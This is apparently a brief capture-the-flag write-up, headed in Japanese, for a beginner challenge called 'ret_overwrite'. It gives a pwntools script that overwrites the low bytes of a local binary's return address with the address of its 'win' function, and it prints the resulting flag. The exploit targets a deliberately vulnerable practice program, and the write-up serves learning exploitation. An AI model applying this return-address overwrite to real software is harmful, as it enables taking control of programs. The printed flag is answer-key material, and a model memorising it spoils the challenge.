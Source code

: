 # ret_overwrite
リターンアドレスを書き替えましょう!


## Write up
```
from pwn import *

io = process("./vuln")
elf = ELF("./vuln")

win = hex(elf.symbols["win"])
print(win)

io.recvuntil(b"type index>")
io.sendline(b"18")
io.recvuntil(b"type value in hex>")
io.sendline(bytes(win[-2:], 'utf-8'))

io.recvuntil(b"type index>")
io.sendline(b"19")
io.recvuntil(b"type value in hex>")
io.sendline(bytes(win[-4:-2], 'utf-8'))

io.interactive()
```


工事中

```
flag{0VeRWitE_T4E_RET4DDRESS!!}
```